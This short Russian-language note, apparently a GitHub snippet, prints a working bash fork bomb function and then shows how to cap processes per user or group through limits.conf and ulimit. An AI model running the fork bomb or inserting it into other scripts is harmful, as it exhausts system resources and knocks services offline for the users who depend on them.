 Bash скрипт форк бомбы

```bash
bomb() {
   bomb | bomb &
   };
bomb

```

Для ограничения по ресурсам:

Настройка conf файла с ограничениями кол-ва процессов для пользователей/групп

```bash
vi /etc/security/limits.conf
...
user hard nproc 300
@student hard nproc 50
@teacher soft nproc 100
```

Либо ограничение через ulimit

```bash
ulimit -u 100
```

